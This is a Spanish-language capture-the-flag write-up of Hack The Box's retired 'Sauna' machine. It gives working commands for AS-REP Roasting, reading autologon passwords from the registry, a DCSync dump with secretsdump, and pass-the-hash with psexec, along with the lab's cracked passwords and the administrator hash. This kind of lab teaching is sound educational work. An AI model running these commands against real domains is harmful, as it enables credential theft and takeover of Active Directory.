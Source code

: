 ```yaml
---
title: HTB Sauna Write-up (Español)
tags: [HackTheBox, AS-REP Roasting, Active Direcotory, DCSync]
image: /assets/images/Sauna/1__i__enw5__Rg5ZLLoPDehOMqw.png
published: true
banner: true
---
```


I cloned my writeup that was originally posted on [medium](https://medium.com/@5ubterranean/htb-sauna-write-up-espa%C3%B1ol-67d4d0eff1c6)

Sauna es una máquina basada en Windows que estuvo activa desde el 15 de Febrero del 2020 hasta el 18 de Julio, para resolver esta máquina tendremos que crear una lista de posible usuarios basándonos en la información que encontramos en su página web, a falta de información probaremos si alguno de los supuestos usuarios es susceptible a AS-REP Roasting, tenemos exito consiguiendo un ticket del usuario “fsmith”, crackeamos la contraseña y conseguimos acceso al servidor, luego conseguimos la contraseña del usuario “svc\_loanmgr”, el cual se logea automáticamente al servidor, por lo que la encontramos en el registro de winlogon, por últimos realizamos un DC Sync con este usuario para conseguir el hash de administrador, y nos logeamos como dicho usuario realizando un pass the hash.

# Enumeración

Empezamos usando masscan para encontrar todos los puertos disponibles y luego usamos nmap para conseguir más información de los mismos.

masscan -e tun0 --rate=500 -p 0–65535 10.10.10.175  
nmap -sC -sV -p 57075,53,464,445,389,49673,80,3269,49686,135,88,9389,139,593,5985,4974,636,3268 -o scan.txt 10.10.10.175

```bash
PORT      STATE    SERVICE       VERSION  
53/tcp    open     domain?  
| fingerprint-strings:   
|   DNSVersionBindReqTCP:   
|     version  
|\_    bind  
80/tcp    open     http          Microsoft IIS httpd 10.0  
| http-methods:   
|\_  Potentially risky methods: TRACE  
|\_http-server-header: Microsoft-IIS/10.0  
|\_http-title: Egotistical Bank :: Home  
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-25 00:05:24Z)  
135/tcp   open     msrpc         Microsoft Windows RPC  
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
445/tcp   open     microsoft-ds?  
464/tcp   open     kpasswd5?  
593/tcp   open     ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
636/tcp   open     tcpwrapped  
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
3269/tcp  open     tcpwrapped  
4974/tcp  filtered unknown  
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|\_http-server-header: Microsoft-HTTPAPI/2.0  
|\_http-title: Not Found  
9389/tcp  open     mc-nmf        .NET Message Framing  
49673/tcp open     msrpc         Microsoft Windows RPC  
49686/tcp open     msrpc         Microsoft Windows RPC  
57075/tcp filtered unknown
```

Por el escaneo vemos que es un común Windows server, aunque lo que destaca es tener el puerto 80 abierto, antes de revisarlo revisamos LDAP/RPC. `ldapsearch -x -h 10.10.10.175 -b “DC=EGOTISTICAL-BANK,DC=LOCAL”`

![](/assets/images/Sauna/1__x__NmKW4wMMgo6nL3MU4LLg.png)


No tenemos acceso a los usuarios del servidor, aunque encontramos una unidad organizacional llamada Hugo Smith, la cual podría ser también el nombre de un usuario, ya que no encontramos más información relevante, visitamos la página web.

![](/assets/images/Sauna/1__yMfXep__hqVl8JLFbgIanaQ.png)


La página parece ser la de una especie de banco, aunque no pudimos identificar ninguna vulnerabilidad en ella, lo más relevante lo encontramos en [http://10.10.10.175/about.html](http://10.10.10.175/about.html).

![](/assets/images/Sauna/1__AQDv__cnskT86mFbd0FDAbw.png)


La página tiene una sección de los integrantes de la empresa, una práctica común para crear los usuarios es tomar la primera letra del nombre, el apellido y juntarlos, a veces se pone un punto en medio, así que asumiendo esta posibilidad creamos una lista de posibles usuarios usando [exrex](https://github.com/asciimoo/exrex).

![](/assets/images/Sauna/1__DZUkdHaHhpx3BA4je4T2FA.png)


Así queda nuestra lista.

![](/assets/images/Sauna/1__MCGsVdAo1MTJmrCm0tu7bw.png)


# Ganando acceso

Usamos el módulo “kerberos\_enumusers” de metasploit para validar nuestros usuarios, vemos que “hsmith” existe, y obtenemos un error con el usuario “fsmith”, quitamos este usuario de la lista y lo reintentamos, pero no encontramos otro usuario válido, ahora tenemos 2 usuarios “hsmith” y “fsmith” el cual conservamos ya que no podemos descartarlo debido al error.

![](/assets/images/Sauna/1__yGZAbBPkn5Yw0AE6jP6TDQ.png)


Intentamos adivinar la contraseña de uno de los 2 usuarios con listas pequeñas de contraseñas comunes (usar listas grandes tomaría demasiado tiempo) y las palabras encontradas en el sitio web sin ningún éxito, así que probamos suerte con algunos ataques a AD, en este caso AS-REP Roasting tiene éxito, para hacerlo usamos el script “GetNPUsers.py” de Impacket: `python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -u users.txt -dc-ip 10.10.10.175 -format john`

![](/assets/images/Sauna/1__n171AXkEUkcbWY__L63YsxQ.png)


Bien conseguimos un ticket con “fsmith”, procedemos a crackearlo con john y obtenemos que la contraseña es “Thestrokes23”.

![](/assets/images/Sauna/1__5oRGzcOxzTPa3Zh1__9ujag.png)


Nos conectamos al servidor usando evil-wirm y conseguimos el “user.txt”.

![](/assets/images/Sauna/1__OBHLx84VoAMgjTD__vtFzmA.png)


# Movimiento lateral

Como parte de la enumeración subimos y corremos [winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) y este nos encuentras unas credenciales de autologon del usuario “svc\_loanmgr”.

![](/assets/images/Sauna/1__Irqga78KAXbLr04fWdML__A.png)


Cuando un usuario se logea automáticamente a una computadora, sus credenciales son guardadas en el registro de windows, estas se pueden recuperar con los comandos:  
`REG QUERY “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon” /v DefaultUserName`   
`REG QUERY “HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon” /v DefaultPassword`

![](/assets/images/Sauna/1__dDlrV6Jhs659ov4h9XjTVQ.png)


# Escalación de privilegios

Con este nuevo usuario podemos realizar un DC Sync, para esto usamos el script secretsdump.py de Impacket: `python3 secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:’Moneymakestheworldgoround!’@10.10.10.175 -dc-ip 10.10.10.175`.

![](/assets/images/Sauna/1__EMqhIESL33O3bMKMNoxR7w.png)


Vemos que conseguimos los hashes LMNT de Administrador “Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::”, no necesitamos crackearlos ya que podemos hacer un pass the hash con ellos: `python3 psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff`.

![](/assets/images/Sauna/1__CqlxeJG2lhQs134TW__lg2Q.png)


Y con eso somos authority\\system y conseguimos el “root.txt”.

# Descargo de responsabilidad

Todos los recursos brindados en este post se hicieron puramente con fines educativos y de concientización, el autor no se hace responsable por las acciones que las personas puedan realizar con el contenido del mismo.